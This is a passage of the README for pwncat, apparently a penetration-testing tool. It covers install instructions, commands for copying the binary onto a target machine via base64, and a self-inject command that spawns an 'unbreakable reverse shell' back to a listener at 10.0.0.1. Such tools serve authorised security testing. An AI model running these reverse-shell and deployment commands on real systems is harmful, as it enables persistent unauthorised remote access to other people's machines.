 
## :tada: Install

Current version is: **0.1.0**

| [Pip](https://pypi.org/project/pwncat/) | [ArchLinux](https://aur.archlinux.org/packages/pwncat/) | [BlackArch](https://www.blackarch.org/tools.html) |
|:-:|:-:|:-:|
| [![](https://raw.githubusercontent.com/cytopia/icons/master/64x64/python.png)](https://pypi.org/project/pwncat/) | [![](https://raw.githubusercontent.com/cytopia/icons/master/64x64/archlinux.png)](https://aur.archlinux.org/packages/pwncat/) | [![](https://raw.githubusercontent.com/cytopia/icons/master/64x64/blackarch.png)](https://www.blackarch.org/tools.html) |
| `pip install pwncat` | `yaourt -S pwncat` | `pacman -S pwncat` |


## :coffee: TL;DR

This is just a quick get-you-started overview. For more advanced techniques see **[:computer: Usage](#computer-usage)** or **[:bulb: Examples](#bulb-examples)**.

### See in action

<table>
 <tr>
  <td widht="50%" style="text-align:center;">
   <a href="https://www.youtube.com/watch?v=lN10hgl_Ts8&list=PLT1I2bH6BKxj2qEylDdEns39ej8g3_eMc&index=2&t=0s">unbreakable reverse shells - how to spawn</a><br/><br/>
   <a href="https://www.youtube.com/watch?v=lN10hgl_Ts8&list=PLT1I2bH6BKxj2qEylDdEns39ej8g3_eMc&index=2&t=0s"><img src="docs/img/video01.png" /></a>
  </td>
  <td widht="50%" style="text-align:center;">
   <a href="https://www.youtube.com/watch?v=VQyFoUG18WY&list=PLT1I2bH6BKxj2qEylDdEns39ej8g3_eMc&index=2">unbreakable reverse shells - multiple shells</a><br/><br/>
   <a href="https://www.youtube.com/watch?v=VQyFoUG18WY&list=PLT1I2bH6BKxj2qEylDdEns39ej8g3_eMc&index=2"><img src="docs/img/video02.png" /></a>
  </td>
 </tr>
</table>


### Deploy to target
```bash
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/pwncat/master/bin/pwncat | base64

# Paste it on the target machine
echo "<BASE64 STRING>" | base64 -d > pwncat
chmod +x pwncat
```

### Inject to target
```bash
# [1] If you found a vulnerability on the target to start a very simple reverse shell,
# such as via bash, php, perl, python, nc or similar, you can instruct your local
# pwncat listener to use this connection to deploy itself on the target automatically
# and start an additional unbreakable reverse shell back to you.
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445
```
> <sup>[1] [Read in more detail about self-injection](#self-injecting-reverse-shell)


[Linux]: https://raw.githubusercontent.com/cytopia/icons/master/64x64/linux.png "Linux"
[MacOS]: https://raw.githubusercontent.com/cytopia/icons/master/64x64/osx.png "MacOS"
[Windows]: https://raw.githubusercontent.com/cytopia/icons/master/64x64/windows.png "Windows"
[offsec]: https://github.com/cytopia/offsec
[header-fuzz]: https://github.com/cytopia/header-fuzz
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[pwncat]: https://github.com/cytopia/pwncat
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza